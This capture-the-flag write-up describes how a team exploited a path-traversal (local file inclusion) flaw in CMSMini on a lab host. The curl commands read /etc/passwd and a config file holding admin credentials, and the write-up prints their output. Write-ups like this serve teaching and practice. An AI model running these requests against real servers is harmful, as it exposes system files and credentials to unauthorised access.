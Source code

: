 ### Solved by barrebas, Swappage, and superkojiman

superkojiman here. Navigating to the provided IP address 10.13.37.12 on a web browser displayed an image of a rose with the text. barrebas did the inital enumeration and found a /cms/admin directory containing a login form

![](/images/2014/defcamp/web200/01.png)

After looking through the source code, we realized it was running CMSMini. Swappage found an exploit at [http://www.exploit-db.com/exploits/28128/](http://www.exploit-db.com/exploits/28128/) that allowed us to read local files on the server. Eg:

```
curl "http://10.13.37.12/cms/admin/edit.php?path=&name=../../../../../../etc/passwd"
.
.
.
<body>

<table>
  <tr>
    <td>
      <fieldset>
        <legend>Edit page</legend>

      <div class="formHelp">Page body</div>

<form action="save.php?what=page&path=&p=../../../../../../etc/passwd" method="post">
<textarea name="content" id="content" cols="80" rows="25">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:104:MySQL Server,,,:/nonexistent:/bin/false
</textarea>
<input type="submit" value="Save" />
</form>

</fieldset>
    </td>

    <td>
      <fieldset>
.
.
.
```

To get a better idea of what interesting files I could read, I downloaded a copy of cmsmini-0.2.2 and found a file called config.php. I was able to use the local file inclusion vulnerability to get the contents of the file which had the admin login and password:

```
curl "http://10.13.37.12/cms/admin/edit.php?path=&name=../../../../../../var/www/cms/admin/config.php"
.
.
.
$admin_login = 'admin';
$admin_pass = 'RosesmaysayIloveyoubutthecactussaysFuckoff';
```

The admin_pass turned out to be the flag.
